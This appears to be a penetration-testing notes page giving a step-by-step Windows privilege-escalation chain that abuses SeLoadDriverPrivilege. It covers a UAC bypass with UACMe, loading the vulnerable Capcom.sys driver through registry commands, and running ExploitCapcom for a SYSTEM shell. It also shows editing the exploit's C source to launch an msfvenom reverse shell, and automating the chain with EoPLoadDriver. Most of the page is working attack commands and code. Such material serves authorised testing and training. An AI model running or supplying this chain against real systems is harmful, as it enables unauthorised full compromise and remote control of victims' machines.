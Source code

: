 # SeLoadDriverPrivilege

Enable the permission first: Use [UACMe](https://github.com/hfiref0x/UACME) to bypass UAC

It's well known that the driver Capcom.sys contains functionality to allow any user to execute shellcode with SYSTEM privileges

Use [this](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp) to load driver

Add these includes:

```
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```

Next compile it with using cl.exe like so:&#x20;

`cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp`&#x20;

<figure><img src="../../../.gitbook/assets/SeLoadDriverPrivilege.png" alt=""><figcaption></figcaption></figure>

### Add a reference to driver

Then download Capcom.sys driver from [here](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) and save it to C:\temp Then:

```
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"

reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```

The odd syntax `\??\` used to reference our malicious driver's ImagePath is an [NT Object Path](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-even/c1550f98-a1ce-426a-9991-7509e7c3787c). The Win32 API will parse and resolve this path to properly locate and load our malicious driver.

### Verify Driver not loaded

Use [DriverView.exe](http://www.nirsoft.net/utils/driverview.html) `.\DriverView.exe /stext drivers.txt`

`cat drivers.txt | Select-String -pattern Capcom`

Then run the **EnableSeLoadDriverPrivilege.exe** that was previously compiled `EnableSeLoadDriverPrivilege.exe`

### Verify Capcom Driver is Listed

```
.\DriverView.exe /stext drivers.txt
```

```
cat drivers.txt | Select-String -pattern Capcom
```

### Use ExploitCapcom Tool to Escalate Privileges

Use [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) after compiling

&#x20;&#x20;

<figure><img src="../../../.gitbook/assets/SeLoadDriverPrivilege-1.png" alt=""><figcaption><p>Now we get a system shell</p></figcaption></figure>

## No gui

If we do not have GUI access to the target, we will have to modify the ExploitCapcom.cpp code before compiling. Here we can edit line 292 and replace `"C:\\Windows\\system32\\cmd.exe"` with, say, a reverse shell binary created with **msfvenom**, for example: `c:\ProgramData\revshell.exe.`

```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

The Command Line string in this example would be changed to:

```
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

## Automating with EopLoadDriver

[EopLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/)

```
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
```

We would then run ExploitCapcom.exe to pop a SYSTEM shell or run our custom binary.
